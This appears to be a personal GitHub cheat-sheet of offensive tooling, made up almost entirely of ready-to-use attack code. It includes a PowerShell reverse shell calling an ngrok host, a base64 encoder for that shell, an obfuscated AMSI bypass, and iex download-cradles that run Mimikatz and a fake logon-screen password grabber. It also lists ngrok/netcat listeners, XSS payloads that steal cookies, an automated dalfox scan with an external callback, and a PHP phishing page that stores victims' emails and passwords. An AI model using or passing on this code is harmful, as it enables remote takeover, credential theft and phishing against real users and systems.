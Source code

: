 # windows Rerverse shell
```php
$cthulhu = New-Object System.Net.Sockets.TCPClient('0.tcp.ngrok.io',19021 );$tntcl = $cthulhu.GetStream();[byte[]]$cult = 0..65535|% {0};while(($i = $tntcl.Read($cult, 0, $cult.Length)) -ne 0) {;$d = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($cult,0, $i);$ex = (iex $d 2>&1 | Out-String );$ex2 = $ex + 'CF ' + (pwd).Path + '> '; $shog =([text.encoding]::ASCII).GetBytes($ex2);$tntcl.write($shog,0,$shog.Length); $tntcl.Flush()};

```
------------------------------------------------------
# encoder of revshell 

```python
import base64

# PowerShell script
powershell_script = '$cthulhu = New-Object System.Net.Sockets.TCPClient("172.16.100.57",443 );$tntcl = $cthulhu.GetStream();[byte[]]$cult = 0..65535|% {0};while(($i = $tntcl.Read($cult, 0, $cult.Length)) -ne 0) {;$d = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($cult,0, $i);$ex = (iex $d 2>&1 | Out-String );$ex2 = $ex + "ASTUTE" + (pwd).Path + "> "; $shog =([text.encoding]::ASCII).GetBytes($ex2);$tntcl.write($shog,0,$shog.Length); $tntcl.Flush()};'

# Encode the PowerShell script into base64
encoded_script_bytes = powershell_script.encode('utf-16le')
base64_encoded_script = base64.b64encode(encoded_script_bytes).decode('ascii')

print(base64_encoded_script)
```

_while using `powershell -ec encoded_test`_
# AMSI BYPASS

```php
$forsec = 'System.Management.Automation.A';$yfd = 'si';$ted = 'Ut' + 'ils'
$astute = [Ref].Assembly.GEtTYpe(('{0}m{1}{2}' -f $forsec,$yfd,$ted))
$onlysecthings =$astute.Getfield(('am{0}InitFailed' -f $yfd),'NonPu' + 'blic' + ',St' + 'atic')
$onlysecthings.SetVALuE($null,$true)
```
------------------------------------------------------------

# invoke pattern to download into memory 
```php
iex(new-object net.webclient).downloadstring('https://raw.githubusercontent.com/S3cur3Th1sSh1t/PowerSharpPack/master/PowerSharpPack.ps1')
```
# invoke important ps1 github

**MIMIKATZ**

```php
iex(new-object net.webclient).downloadstring('https://raw.githubusercontent.com/samratashok/nishang/master/Gather/Invoke-Mimikatz.ps1')
```
**LOGIN SCREEN PASSWORD GRABBER**

```php
iex(new-object net.webclient).downloadstring('https://raw.githubusercontent.com/S3cur3Th1sSh1t/PowerSharpPack/master/PowerSharpBinaries/Invoke-FakeLogonScreen.ps1')
```

-----------------------------------------------------------------------------------------------

    ngrok TCP PORT for rev listening 

    ngrok http for http service forwarding 


---------------------------------------------------------------------------------------------------

    ngrok tcp 1234
    nc -nvlp 1234

------------------------------------------------------------------------------------------------------

    tmate 

------------------------------------------------------------------------------------------------

# XSS Paylaods

```html
t3_u9po1l%2520onmouseover=alert(document.domain)%2520y=/t1_i5sxroa

javascript:alert(document.cookie)

"><img src=x onerror=prompt(document.cookie);> 

"><img src=x onerror=alert(1)>

<h1>Testing TG</h1>

flkdflkjslkf"><img%20src=x%20onmouseover=confirm(1)>

<svg onload="javascript:window.onerror=confirm;throw 10">
    
<scr<h1>ipt>document.write("<img src=x onerror=confirm(1);>");</scr<h1>ipt>

<svg/onload=alert(1)>
    
```

#alert in window 

    Add-Type -AssemblyName PresentationCore,PresentationFramework

`for alert`

    [System.Windows.MessageBox]::Show($Messageboxbody,$MessageboxTitle,$ButtonType,$messageicon)

# 1linerXSS

    gospider -S subdomains.txt -c 10 -d 5 --blacklist ".(jpg|jpeg|gif|css|tif|tiff|png|ttf|woff|woff2|ico|pdf|svg|txt)" --other-source | grep -e "code-200" | awk '{print $5}'| grep "=" | qsreplace -a | dalfox -b astutehacker.xss.ht pipe -o result3.txt

#phishing 
make proccess.php and give process.php to action=/process.php
content of process.php
```
<?php
if(isset($_POST['email']) && isset($_POST['password'])) {
    $password = file_get_contents('phishing.txt');
    $phishing = fopen("phishing.txt", "a");
    fwrite($phishing, $password."email: ".$_POST['email']." Password: ".$_POST['password']."\n");
    fclose($phishing);
    echo '<script>window.location.href="https://su.icloudems.com/corecampus/index.php" </script>';
} else {
    echo '<script>window.location.href="index.html"</script>';
}
?>
```
`"><SVG ONLOAD%3d%26%2397%26%23108%26%23101%26%23114%26%23116(%26%23x64%26%23x6f%26%23x63%26%23x75%26%23x6d%26%23x65%26%23x6e%26%23x74%26%23x2e%26%23x63%26%23x6f%26%23x6f%26%23x6b%26%23x69%26%23x65%26%23x29>`


<iframe
  src="https://carbon.now.sh/embed?bg=rgba%28142%2C180%2C196%2C1%29&t=one-dark&wt=none&l=auto&width=680&ds=true&dsyoff=20px&dsblur=68px&wc=true&wa=true&pv=34px&ph=29px&ln=false&fl=1&fm=Hack&fs=14px&lh=133%25&si=false&es=2x&wm=false&code=%2523%2520Methodology%2520%28semi%2520auto%29%250A%250A%257C%2520%2540prakashchand72%250A%250A-%2520Automate%2520The%2520Recon%2520on%2520github%2520action%2520%250A-%2520github%2520action%250A%2520%250A%2520%257B%250A%2520%2520-%2520find%2520subdomains%250A%2520%2520-%2520find%2520httpx%2520detailed%2520%2520%250A%2520%2520-%2520find%2520httpx%2520live%2520%250A%2520%2520-%2520find%2520waybackurls%2520%250A%2520%2520-%2520automate%2520the%2520hostheader%2520injection%2520%250A%2520%2520-%2520run%2520nuclei%2520for%2520small%2520target%2520%28rarely%2520used%29%250A%2520%2520%250A%2520%2520%257D%250A%2520%2520%250A-%2520check%2520the%2520ssl%2520%252C%2520ip%2520and%2520domain%2520search%2520on%2520the%2520shodan%2520%2526%2520censys%250A%250A%257B%250A%250A*shodan*%250A-%2520ssl.cert.subject.cn%253A%2522namehere%2522%2520%2524statuscode%250A-%2520ssl%253A%2522namehere%2522%2520%2524statuscode%250A%250A*censys*%250A-%2520similar%2520with%2520censys%250A%250A%257D%250A%250A-%2520git%2520dorking%2520%250A%250A%257B%250A-%2520secret%250A-%2520password%250A-%2520token%250A-%2520passwd%250A-%2520pw%250A-%2520%2520_also%2520try%2520to%2520find%2520some%2520endpoints%2520or%2520may%2520be%2520some%2520subdomains_%250A%250A%257D%250A-%2520do%2520use%2520extension%2520%250A%250A%257B%250A%250A-%2520tufflehog%2520-%253E%2520token%252Fapi%252Fcreds%2520disclosure%2520%250A-%2520retire%2520js%2520-%253E%2520js%2520based%2520vuln%250A-%2520shodan%2520-%253E%2520%2520ip%252C%2520host%252C%2520port%250A%250A%257D%250A%250A-%2520now%2520based%2520on%2520finding%2520do%2520futher%2520recon%2520and%2520exploits%250A-%2520go%2520through%2520the%2520httpx%2520result%2520and%2520%2520choose%2520the%2520target%2520%2520that%2520catch%2520your%2520eye%250A-%2520go%2520through%2520the%2520shodan%252Fcensys%2520result%2520and%2520check%2520for%2520uncommon%2520port%2520or%2520service%2520you%2520like%2520to%2520futher%2520exploit%250A-%2520if%2520found%2520some%2520unauthorized%2520page%2520or%2520403%2520do%2520bruteforcing%2520_i%2520prefer%2520ferobuster%2520for%2520directory%2520bruteforcing_%250A-%2520now%2520rest%2520is%2520your%2520manual%2520testing%2520%250A-%2520Spend%2520time%2520on%2520burpsuite%2520and%2520checking%2520each%2520functinality%2520one%2520by%2520one%2520understanding%2520the%2520flow%2520and%2520working%2520%250A-%2520Depending%2520upon%2520the%2520%2520functionality%2520for%2520the%2520vuln%2520testing%2520%250A%250A"
  style="width: 964px; height: 1242px; border:0; transform: scale(1); overflow:hidden;"
  sandbox="allow-scripts allow-same-origin">
</iframe>
